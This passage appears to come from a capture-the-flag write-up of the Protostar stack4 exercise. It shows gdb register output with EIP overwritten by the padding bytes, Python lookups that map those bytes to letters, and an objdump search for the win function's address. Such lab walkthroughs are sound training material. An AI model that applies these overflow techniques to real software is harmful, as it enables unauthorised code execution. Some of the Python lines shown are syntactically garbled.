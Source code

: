 
segmentation occur at 0x55 means at U

```css
user@protostar:/tmp$ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40) 
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> chr(0x55)
'U'
>>> 
```

```css
(gdb) info registers
eax            0xbffff760	-1073744032
ecx            0xbffff760	-1073744032
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff7b0	0xbffff7b0
ebp            0x54545454	0x54545454
esi            0x0	0
edi            0x0	0
eip            0x55555555	0x55555555
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 

```

```css
user@protostar:/tmp$ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40) 
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> chr(0x55) => eip
'U'
>>> chr(0x54) => ebp
'T'

```


```css
(gdb) quit
A debugging session is active.

	Inferior 1 [process 2008] will be killed.

Quit anyway? (y or n) y
user@protostar:/opt/protostar/bin$ objdump -t stack4 | grep win
080483f4 g     F .text	00000014              win
user@protostar:/opt/protostar/bin$ 


```
